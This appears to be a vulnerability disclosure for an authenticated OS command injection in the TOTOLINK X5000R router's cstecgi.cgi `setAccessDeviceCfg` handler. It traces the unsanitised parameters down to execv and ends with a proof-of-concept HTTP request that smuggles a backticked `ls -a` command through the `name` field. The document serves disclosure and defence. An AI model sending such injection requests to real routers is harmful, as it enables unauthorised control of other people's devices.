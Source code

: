 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setAccessDeviceCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setAccessDeviceCfg` (at 0x4179C0), binary /cgi-bin/cstecgi.cgi. The parameter `modelType`, `name` are passed to 'Uci_Add_List' without any check.
![setAccessDeviceCfg](image.png)
`Uci_Add_List` passes `modelType` and `name` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Add_List calls snprintf to format our param_4 into the string uci -c %s add_list %s.%s.%s=\"%s\.... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uUci_Add_List](image-1.png)
![Uci_Add_List](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 387
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setAccessDeviceCfg", "addEffect": "||wzq", "mac": "wzqwzqwzq", "modelType": "aaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwzaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa", "white": "'wzq", "name": "";`ls -a`"}
```
